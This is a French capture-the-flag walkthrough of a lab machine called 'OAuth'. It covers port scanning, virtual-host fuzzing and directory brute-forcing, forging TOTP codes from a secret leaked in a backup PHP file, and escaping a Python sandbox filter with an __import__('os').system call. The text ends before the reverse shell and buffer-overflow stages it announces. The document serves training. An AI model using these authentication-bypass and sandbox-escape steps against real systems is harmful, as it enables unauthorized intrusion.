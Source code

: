 # WCS - OAuth

Résumé :
  - Analyse de port TCP.
  - Énumération des dossiers et également des VHOSTS et il s'avère que un VHOST `dev`.
  - Exploitation du système `GoogleAuthenticator` et après l'accès avoir un accès sur la platforme `Python`.
  - Fichier atypique qui supporte `SUID` et faire une attaque par buffer overflow avec la technique de la retour à la libc.
  

Commençons par faire un scan de port :

    root@wildcodeschool# nmap -p22,80 -sC -sV 172.30.20.253 --min-rate 10000
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-08 12:29 CET
    Nmap scan report for 172.30.20.253
    Host is up (0.025s latency).

    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 2d:60:2a:2a:98:a5:ac:68:3d:a3:64:79:08:6d:81:52 (RSA)
    |   256 3a:e5:20:ac:b7:e4:2e:fc:0a:91:4d:d9:f0:5e:2f:3e (ECDSA)
    |_  256 d4:47:2c:de:36:6a:3f:f6:05:a9:00:9a:26:3e:fa:30 (ED25519)
    80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
    |_http-server-header: Apache/2.4.29 (Ubuntu)
    |_http-title: Apache2 Ubuntu Default Page: It works
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 9.18 seconds
    
Il s'avère que le port `22` et `80` est ouvert, donc nous pouvons supposer que le serveur tourne sur `Ubuntu 18.04` en regardant le release des versions.

# HTTP

Lorsque je tape l'adresse IP sur le navigateur et il me redirige automatiquement vers le `VHOST => oauth.wcs`, donc je vais mettre ça dans mon fichier `/etc/hosts`.

    127.0.0.1       localhost
    127.0.1.1       wildcodeschool

    172.30.20.253   oauth.wcs

    # The following lines are desirable for IPv6 capable hosts
    ::1     localhost ip6-localhost ip6-loopback
    ff02::1 ip6-allnodes
    ff02::2 ip6-allrouters

Lorsque je tape `oauth.wcs` sur mon navigateur, il me redirige automatiquement vers la page par défaut de `Ubuntu`.

![test](https://raw.githubusercontent.com/0ldProgrammer/0ldProgrammer.github.io/master/Screenshot_2021-02-08_12-36-19.png)

J'ai effectué plusieurs recherches vis à vis des dossiers ou des fichiers, mais `gobuster` n'a strictement rien trouvé. Je vais chercher des `VHOSTS` avec l'outil `wfuzz` et de voir si nous pouvons accéder différement à la machine.

(VHOST est simplement un système qui permet d'avoir plusieurs site sur une même adresse IP)

     root@wildcodeschool# wfuzz -w /usr/share/dnsrecon/subdomains-top1mil-5000.txt -u http://172.30.20.253/ -H "Host: FUZZ.oauth.wcs" --hl 376
     /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
    ********************************************************
    * Wfuzz 3.1.0 - The Web Fuzzer                         *
    ********************************************************

    Target: http://172.30.20.253/
    Total requests: 5000

    =====================================================================
    ID           Response   Lines    Word       Chars       Payload                                                                                    
    =====================================================================

    000000019:   200        32 L     78 W       1161 Ch     "dev"
    
D'après les scans, l'outil à trouvé le VHOST `dev`, donc je vais en profiter pour mettre ça dans mon fichier `/etc/hosts`.

    root@wildcodeshool: cat /etc/hosts
    127.0.0.1       localhost
    127.0.1.1       oldprogrammer

    172.30.20.253   oauth.wcs dev.oauth.wcs

    # The following lines are desirable for IPv6 capable hosts
    ::1     localhost ip6-localhost ip6-loopback
    ff02::1 ip6-allnodes
    ff02::2 ip6-allrouters
    
# dev.oauth.wcs

Une autre page assez intéréssante, j'ai essayé de mettre un code `OTP` mais sans succès, j'ai même esssayé de brute-force de 0 à 1000000, cela n'a pas abouti.

![test](https://raw.githubusercontent.com/0ldProgrammer/0ldProgrammer.github.io/master/Screenshot_2021-02-08_12-45-07.png)

Cherchons des dossiers et ou des fichiers avec `gobuster`.

    root@wildcodeschool# gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://dev.oauth.wcs/
    ===============================================================
    Gobuster v3.0.1
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
    ===============================================================
    [+] Url:            http://dev.oauth.wcs/
    [+] Threads:        10
    [+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
    [+] Status codes:   200,204,301,302,307,401,403
    [+] User Agent:     gobuster/3.0.1
    [+] Timeout:        10s
    ===============================================================
    2021/02/08 12:47:21 Starting gobuster
    ===============================================================
    /includes (Status: 301)

Il y a un dossier `/includes` assez intéréssant, lorsque je rentre dedans il y a trois dossiers (css, js, php). Lorsque je rentre dans le dossier `php`, il y a un fichier `access.php.bak` qui pouvait être télécharger par n'importe qui, donc je vais le télécharger et le mettre dans ma machine physique.

![test](https://raw.githubusercontent.com/0ldProgrammer/HTB-SCRIPT/master/Screenshot_2021-02-08_12-50-02.png)

    root@wildcodeschool# wget http://dev.oauth.wcs/includes/php/access.php.bak
    --2021-02-08 12:51:32--  http://dev.oauth.wcs/includes/php/access.php.bak
    Resolving dev.oauth.wcs (dev.oauth.wcs)... 172.30.20.253
    Connecting to dev.oauth.wcs (dev.oauth.wcs)|172.30.20.253|:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 320 [application/x-trash]
    Saving to: ‘access.php.bak’

    access.php.bak                         100%[============================================================================>]     320  --.-KB/s    in 0s      

    2021-02-08 12:51:32 (25.1 MB/s) - ‘access.php.bak’ saved [320/320]
    
Affichons le fichier pour essayer de comprendre le code :

```php
<?php
        require_once 'GoogleAuthenticator.php';
        $ga = new PHPGangsta_GoogleAuthenticator();
        $secret = "P4UJGRUHNI6KNI3O";

        if ($_POST['action'] == 'check_code') {
                $code = $_POST['code'];
                $result = $ga->verifyCode($secret, $code, 1);

                if ($result) {
                        include('coder.php');
                } else {
                        echo "wrong";
                }
        }
?>
```

Les points les plus intéréssants dans le code PHP :

- `require_once 'GoogleAuthenticator.php';` importe le module `GoogleAuthenticator.php` mais n'est pas présent dans mon dossier actuel donc l'exécution ne fonctionnera pas (possible de l'installer depuis [ICI](https://raw.githubusercontent.com/PHPGangsta/GoogleAuthenticator/master/PHPGangsta/GoogleAuthenticator.php).
- `$secret = "P4UJGRUHNI6KNI3O";` est un mot de passe pour la génération d'un code `OTP`, cela nous sera très utile de créer notre propre code et l'envoyer au serveur.
- `$result = $ga->verifyCode($secret, $code, 1);` l'application teste si le code est correcte, si le code est correcte, il redirige vers `coder.php` sinon il affiche une erreur (wrong).

Lorsque nous regardons la documentation de `PHPGangsta`, nous pouvons créer recevoir notre propre code `OTP` à l'aide de la fonction `getCode();` donc créeons notre propre petit script pour récupérer le code.

```php
<?php
  require_once 'GoogleAuthenticator.php';
  $ga = new PHPGangsta_GoogleAuthenticator();
  $secret = "P4UJGRUHNI6KNI3O";
  
  echo $ga->getCode($secret);
  
?>
```

(Un petit point important, l'heure du serveur est décalé de 1 heure, donc si l'heure de votre machine n'est pas adaptée avec lui de la machine cible, le code ne fonctionnera essayer de adapté l'heure)

Et lorsque nous exécutons le code `PHP`, il m'affiche un code que je mettrai dans la platforme et lorsque nous rentrons le code il nous redirige vers une platforme Python.

![test](https://raw.githubusercontent.com/0ldProgrammer/pic/main/Screenshot_2021-02-08_12-07-15.png)

# Reverse Shell TCP

J'ai essayé de faire un `reverse shell` avec le module `os` mais lorsque je tente d'importer le module `os` il me renvoie `Please, don't use malicious code.`. Donc, j'ai réussi à contourner cela en fesant simplement `__import__('os')` et ensuite en appelant le nom de la fonction `system();` donc `__import__('os').system('whoami')`.
